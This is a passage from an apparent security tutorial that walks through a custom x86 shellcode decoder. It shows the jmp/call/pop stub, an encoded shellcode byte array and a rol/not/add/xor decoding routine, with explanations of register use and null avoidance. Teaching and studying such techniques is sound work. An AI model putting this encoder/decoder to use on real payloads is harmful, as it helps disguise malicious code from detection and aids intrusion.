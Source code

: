 Now that the <b>jmp/call/pop</b> technique explained above, it is a good starting point to proceed further into explaining the implementation of the custom decoder.

The following code snippet explains the code implemented inside the <b>init</b> label
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
init: 
        pop esi 
        push esi 
        xor ebx, ebx 
        xor ecx, ecx 
        xor edx, edx 
        mov dl, len
</pre>


<p style="text-align:justify;">
As mentioned before,&nbsp; the <b>pop esi</b> instruction after executed will hold the address of the initial shellcode byte string ( see <b>EncodedShellcode</b> below ) <b>.</b> Afterwards, when the <b>push esi</b> instruction executed, it will push the address of the initial shellcode into the stack for later use. The next three instructions will perform a bitwise exclusive OR operation to <b>ebx</b> , <b>ecx</b> and <b>edx</b> registers in order to clear them and initialise them for later use.&nbsp; The <b>mov dl, len</b> instruction will load the shellcode length into the lower byte register <b>dl</b> ( lower byte registers are used to avoid nulls ).&nbsp; The length of the shellcode calculated as shown in red font below
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
call_shellcode: 
              call init 
              EncodedShellcode: db 0x4e,0xc7,0x51,0xec,0x58,0x01,0xdb,0x3f,0xef,0xf4,0xef,0xda,0x2a,0x3e,0xdb,0x1e,0xdb,0x9b,0xef,0x9a,0x3b,0x95,0xcb,0x32,0xfb,0xf0,0xc5,0x72,0x23,0x24,0x58,0x42,0xc5,0x86,0x33,0x8c,0x28,0x55,0xc5,0x35,0x43,0x24,0x56,0x76,0xad,0x09,0x02,0x10,0x55,0x39,
              len equ $-EncodedShellcode
</pre>

Furthermore, the custom decoding scheme will be explained as follows

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
scheme:
       rol byte [esi], 4 
       not byte [esi] 
       add byte [esi], 2 
       xor byte [esi], 0x2c
</pre>

